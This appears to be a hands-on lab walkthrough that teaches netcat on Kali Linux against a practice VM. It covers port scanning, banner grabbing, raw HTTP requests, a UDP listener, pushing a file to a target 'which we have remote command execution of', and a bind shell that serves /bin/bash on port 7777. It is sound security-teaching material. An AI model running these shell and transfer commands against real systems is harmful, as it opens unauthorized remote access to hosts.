








- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat

**Lab Purpose:**

Netcat is a utility tool which can read and write data across TCP and UDP network connections. Netcat has a huge amount of uses and is often known as a swiss army knife. It can be used as a port scanner, backdoor, port redirector, port listener and many other things. Netcat can be used to perform a total hack, all by itself.

**Lab Tool:**

Kali Linux

**Lab Topology:**

You can use a Kali Linux VM for this lab. In this lab we need another SSH-enabled machine to make connections through. You can find a prebuilt Ubuntu Server 20.04 image on [https://www.osboxes.org/ubuntu-server/](https://www.osboxes.org/ubuntu-server/) for this purpose.

Download and import it to your virtualization platform and run.

Some netcat command features may require privileges to work. First of all, we must be the “root” user using the terminal:

sudo su –

Keep in mind that “netcat” and “nc” commands are the exact same.

**Lab Walkthrough:**

### Task 1:

We will begin by viewing the help information screen by executing the following command:

netcat -h

We will begin by port scanning using netcat. netcat is quite slow and nmap is a far better option for port scanning, but this is just to show you netcat’s functionality. This can be done using the following command:

nc -v -w2 -z 192.168.1.123 130-140

In this example, we started a scan of an IP address for a specific port range. As a result of the scan, we found that ports 135 and 139 are open. This target is probably a Windows machine.

### Task 2:

We can then perform banner grabbing to determine which version of a service is running. I will demonstrate this on port 22 for SSH. This can be done using the following command:

nc -v -n 139.162.196.104 22

### Task 3:

When connecting to a web server, we can request information in the form of web requests. We can request the header from this server by using the following command when we are connected:

nc 192.168.1.206 80  
HEAD / HTTP/1.0

This will cause the webserver to respond with usefull information like server banner, content size, version, time, etc.

To retrieve the top level page on the webserver, we can issue the following command:

nc 192.168.1.206 80  
GET / HTTP/1.0

### Task 4:

We can also transfer files between two nodes using netcat. This is very handy when interacting with a server through the command line. In this example, we will assume we want to transfer a file to a target which we have remote command execution of. We will begin by setting up a listener on the target host and then connecting to it from the attack box.

nc -vnlp 8080 > received.file

This opens a listener on the target on port 8080. We will then connect to it on the attack box and transfer the file.

nc 192.168.1.206 8080 < tobe-send.txt

We can end the connection as the file has now transferred.

With this method, it is possible to transfer large files as well with the help of compression tools.

### Task 5:

We can open a UDP server using netcat too, using the following command:

netcat -ul -p 7000

Connect to listener side with this command;

nc -uv 192.168.1.206 7000

### Task 6:

Netcat can also be used to create a basic shell on a remote system on a port. This can be done by executing this command:

netcat -l -p 7777 -e /bin/bash

This will start a server on port 7777 and will pass all incoming input to bash command and the results will be sent back. This will basically convert the bash program into a server. Netcat can be used to convert any process into a server. We can connect to this bash shell using the following command:

netcat 139.162.196.104 7777